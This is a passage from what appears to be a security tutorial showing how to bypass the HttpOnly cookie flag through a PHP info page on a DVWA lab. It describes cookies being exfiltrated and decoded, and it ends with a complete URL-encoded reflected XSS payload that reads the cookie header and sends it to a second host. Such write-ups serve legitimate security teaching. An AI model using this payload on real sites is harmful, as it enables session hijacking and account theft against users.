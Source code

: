 and we click on *Submit*, we can see that a GET request has been printed in the web server, like in the following screenshot

![](/assets/images/2022-11-12-bypass-httponly-via-php-info-page/user-cookies-exfiltrated-2.png)

The value of the parameter *data* is the *base64* encoded form of the user cookies (and a lot of HTML code but not relevant), so decoding it with the burpsuite decoder we can get the user cookies

![](/assets/images/2022-11-12-bypass-httponly-via-php-info-page/user-cookies-exfiltrated-decoded-2.png)

As you can see, all the cookies has been displayed, so we have bypassed the *HttpOnly* flag of the *PHPSESSID* cookie. Therefore, anyone who clicks on the URL 

{% include codeHeader.html %}
```html
http://192.168.240.128/dvwa/vulnerabilities/xss_r/?name=%3Cscript%3Evar+req+%3D+new+XMLHttpRequest%28%29%3Breq.onload%3DreqListener%3Bvar+url%3D%22http%3A%2F%2F192.168.240.128%2Fdvwa%2Fphpinfo%22%3Breq.withCredentials%3Dtrue%3Breq.open%28%22GET%22%2Curl%2Cfalse%29%3Breq.send%28%29%3Bfunction+reqListener%28%29+%7Bvar+req2%3Dnew+XMLHttpRequest%28%29%3Bconst+sess%3Dthis.responseText.substring%28this.responseText.indexOf%28%22HTTP_COOKIE%22%29%29%3Breq2.open%28%22GET%22%2C%22http%3A%2F%2F192.168.240.129%2F%3Fdata%3D%22%2Bbtoa%28sess%29%2Cfalse%29%3Breq2.send%28%29%7D%3B%3C%2Fscript%3E#
```
